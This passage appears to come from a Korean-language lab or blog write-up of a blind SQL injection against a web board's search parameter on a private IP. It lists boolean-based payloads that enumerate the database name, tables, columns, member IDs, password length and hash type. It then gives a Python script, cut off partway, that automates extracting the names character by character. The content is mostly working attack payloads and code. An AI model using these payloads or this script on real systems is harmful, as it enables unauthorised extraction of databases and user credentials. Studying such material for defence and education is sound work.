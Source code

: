 쿼리 공격구문이 성공하여 `항상 참`이 되는 `결과값`을 볼 수 있었습니다.
그래서 저는 아래 방식으로 `데이터베이스 이름`, `테이블 이름`, `테이블의 컬럼` 등등를 가져왔습니다.
<br>
<figure>
<div class="overflow-table" markdown="block">

|      종류                | 공격 구문                               |
| :---------------------- | :--------------------------------- |
| `데이터베이스 길이` | `1' and length(database()) > 2#` |
| `데이터베이스 이름`           | `1' and substring(database(),1,1)='c'#, 1' and substring(database(),2,1)='i'#`               |
| `CIA 데이터베이스 테이블 길이`           | `1' and length((select table_name from information_schema.tables where table_type='base table' and table_schema='CIA' limit 0,1))=5#, 1' and length((select table_name from information_schema.tables where table_type='base table' and table_schema='CIA' limit 1,1))=10#`       |
| `CIA 데이터베이스 테이블 이름`           | `1' and (select table_name from information_schema.tables where table_type='base table' and table_schema='CIA' limit 0, 1) = 'board'#,1' and substring((select table_name from information_schema.tables where table_type='base table' and table_schema='CIA' limit 0,1),1,1) = 'b'#, 1' and (select table_name from information_schema.tables where table_type='base table' and table_schema='CIA' limit 2, 1) = 'member'#`
| `CIA 데이터베이스 테이블 컬럼 길이`           | `1' and length((select column_name from information_schema.columns where table_name='member' limit 0,1))=3#, 1' and length((select column_name from information_schema.columns where table_name='member' limit 1,1))=2#`
| `CIA 데이터베이스 테이블 컬럼 이름`           | `1' and substring((select column_name from information_schema.columns where table_name='member' limit 0,1),1,1) = 'i'#, 1' and substring((select column_name from information_schema.columns where table_name='member' limit 0,1),2,1) = 'd'#`
| `아이디 가져오기`           | `1' and (select idx from member where id='veloideu')#, 1' and (select id from member limit 6,1)='qwe'#`
| `패스워드 길이 가져오기`           | `1' and length((select pw from member where id='veloideu'))=60#`
| `패스워드 암호화 방식 확인`           | `1' and sha1("123")=(select pw from member where id='veloideu')#`

</div>
<figcaption>쿼리 공격을 위한 공격 구문 테이블</figcaption>
</figure>

```python
import requests
from bs4 import BeautifulSoup
import string

comparison = string.ascii_lowercase

db_name ="    DB 이름 : "
table_name =" Table 이름 : "
Column_name ="Column 이름 : "
Member_name ="Member 이름 : "

for b in range(1, 4): # DB 이름 : 1' and substring(database(),{b},1)='{i}'%23
    for i in comparison:
        url = f"http://192.168.35.237/page/board/search_result.php?catgo=title&search=1' and substring(database(),{b},1)='{i}'%23"
        response = requests.get(url)
        response_text = response.text
        soup = BeautifulSoup(response_text, 'html.parser')
        title = soup.select_one('#board_area > table > tbody > tr > td:nth-child(2) > a > span:nth-child(1)')

        if title != None:
            db_name += i
        else :
            pass

for a in range(1, 6): # Table 이름 : 1' and substring((select table_name from information_schema.tables where table_type='base table' and table_schema='CIA' limit 0,1),{a},1) = '{b}'%23
    for b in comparison:

        url = f"http://192.168.35.237/page/board/search_result.php?catgo=title&search=1' and substring((select table_name from information_schema.tables where table_type='base table' and table_schema='CIA' limit 0,1),{a},1) = '{b}'%23"
        response = requests.get(url)
        response_text = response.text
        soup = BeautifulSoup(response_text, 'html.parser')
```